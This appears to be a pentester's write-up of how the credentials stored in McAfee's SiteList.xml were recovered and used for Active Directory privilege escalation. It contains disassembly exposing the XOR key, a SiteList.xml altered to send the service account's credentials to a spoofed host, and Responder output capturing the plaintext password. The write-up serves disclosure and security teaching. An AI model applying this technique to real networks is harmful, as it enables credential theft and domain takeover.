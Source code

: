 
#### McAfee privileged SiteList.xml leads to Active Directory domain privilege escalation

---

#### 16/02/2016 UPDATE

Thanks to [@funoverip](https://twitter.com/funoverip) for his [password decryption tool](https://github.com/funoverip/mcafee-sitelist-pwd-decryption).

Thus to increase my reverse skills I'm back.

```
Executable modules, item 6
 Base=73EB0000
 Size=00028000 (163840.)
 Entry=73EB9B6F cryptshi.<ModuleEntryPoint>
 Name=cryptshi
 File version=2.7.0.815
 Path=C:\Program Files (x86)\McAfee\Common Framework\cryptshim.dll
```

```
; Extract the XOR key
; \x12\x15\x0f\x10\x11\x1c\x1a\x06\x0a\x1f\x1b\x18\x17\x16\x05\x19\x00\x00\x00\x00
0x1001468e C645D812                        mov        byte [ss:ebp+var_28], 0x12
0x10014692 C645D915                        mov        byte [ss:ebp+var_27], 0x15
0x10014696 C645DA0F                        mov        byte [ss:ebp+var_26], 0xf
0x1001469a C645DB10                        mov        byte [ss:ebp+var_25], 0x10
0x1001469e C645DC11                        mov        byte [ss:ebp+var_24], 0x11
0x100146a2 C645DD1C                        mov        byte [ss:ebp+var_23], 0x1c
0x100146a6 C645DE1A                        mov        byte [ss:ebp+var_22], 0x1a
0x100146aa C645DF06                        mov        byte [ss:ebp+var_21], 0x6
0x100146ae C645E00A                        mov        byte [ss:ebp+var_20], 0xa
0x100146b2 C645E11F                        mov        byte [ss:ebp+var_1F], 0x1f
0x100146b6 C645E21B                        mov        byte [ss:ebp+var_1E], 0x1b
0x100146ba C645E318                        mov        byte [ss:ebp+var_1D], 0x18
0x100146be C645E417                        mov        byte [ss:ebp+var_1C], 0x17
0x100146c2 C645E516                        mov        byte [ss:ebp+var_1B], 0x16
0x100146c6 C645E605                        mov        byte [ss:ebp+var_1A], 0x5
0x100146ca C645E719                        mov        byte [ss:ebp+var_19], 0x19
0x100146ce C645D300                        mov        byte [ss:ebp+var_2D], 0x0
0x100146d2 C745C800000000                  mov        dword [ss:ebp+var_38], 0x0
0x100146d9 C745BC00000000                  mov        dword [ss:ebp+var_44], 0x0
0x100146e0 C745B400000000                  mov        dword [ss:ebp+var_4C], 0x0
0x100146e7 8B4D08                          mov        ecx, dword [ss:ebp+arg_0]
0x100146ea E811CCFEFF                      call       exp_?size@ABuffer@crypto@MA@mcafee_com@@QBEKXZ
```

---

#### 02/02/2016 UPDATE

According with [Intel Security response](https://kc.mcafee.com/corporate/index?page=content&id=KB86503) : this is not a security flaw in McAfee's product ! Find best practices [here](https://kc.mcafee.com/corporate/index?page=content&id=KB70999).

---

#### Story

During an intern pentest, I came accross a nice way to privesc in an Active Directory domain.
I owned an employee's laptop with [**McAfee Virusscan Enterprise 8.8**](http://www.mcafee.com/us/products/virusscan-enterprise.aspx) installed and a low privilege account.

Mcafee has a feature to customize update servers and can connect to these servers via HTTP or SMB. (*C:\ProgramData\McAfee\Common Framework\*) **SiteList.xml** contains juicy informations like credentials, internal server names, ...

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="McAfeeHttp" Order="26" Enabled="1" Local="0" Server="update.nai.com:80">
<RelativePath>Products/CommonUpdater</RelativePath><UseAuth>0</UseAuth>
<UserName></UserName>
<Password Encrypted="1">XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</Password>
</HttpSite>

<UNCSite Type="repository" Name="Paris" Order="13" Server="paris001" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

<UNCSite Type="repository" Name="Tokyo" Order="18" Server="tokyo000" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

</SiteList></ns:SiteLists>
```

Let's check which rights we got with **McAfeeService**.

```
PS C:\Users\TAirane> net user McAfeeService /domain
The request will be processed at a domain controller for domain companydomain. 

User name                     McAfeeService
Full Name                     McAfee ePO
Comment                       Service Account for ePO Replication
User's comment
Country/region code           000 (System Default)
Account active                Yes
Account expires               Never
Password last set             29/01/2007 16:03:12
Password expires              Never
Password changeable           29/01/2007 16:03:12
Password required             Yes
User may change password      Yes

Workstations allowed          All
Logon script
User profile
Home directory
Last logon                    29/01/2016 17:55:09

Logon hours allowed           All

Local Group Memberships       *All Repository*Repository
Global Group memberships      *Domain Services Account*Workstations Administrator
                              *Servers Administrator*Domain Users
                              
The command completed successfully. 
```

Unfortunately the AV used GUI password, I couldn't edit the file. Thus, I downloaded and installed McAfee on my Windows Virtual Machine and just copied/pasted the previous precious sesame in my own SiteList.xml.

At this time, I knew that It was close. I edited the file like I could force an HTTP connection to any random server that I could spoof using [**Responder**](https://github.com/SpiderLabs/Responder). Actually the SiteList.xml looks like this.

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="PWNED!" Order="26" Enabled="1" Local="0" Server="fuckingrandomserver:80">
<RelativePath>LICORNE</RelativePath><UseAuth>1</UseAuth>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</HttpSite>

</SiteList></ns:SiteLists>
```

I clicked to update McAfee Antivirus and Responder enters the matrix.

```
root@kali:~/Tools/responder# python Responder.py -I eth0 --basic
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Original work by Laurent Gaffie (lgaffie@trustwave.com)
  To kill this script hit CRTL-C
...
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [ON]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [ON]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.169.140]
    Challenge set              [1122334455667788]


[+] Listening for events...

[*] [LLMNR]  Poisoned answer sent to 192.168.169.141 for name fuckingrandomserver

[HTTP] Basic Client   : 192.168.169.141
[HTTP] Basic Username : McAfeeService
[HTTP] Basic Password : *\cool_its_a_strong_password/*
```

OMG, we got it ! Now, I can level up :) I can logon on any *Domain Controler* and access all workstations within the domain.

<p align="center">
<img src="img/McAfee.jpg"/>
</p>

Mission accomplished !

[@tfairane](https://twitter.com/tfairane) greetz [@Fr33ster](https://twitter.com/Fr33ster)
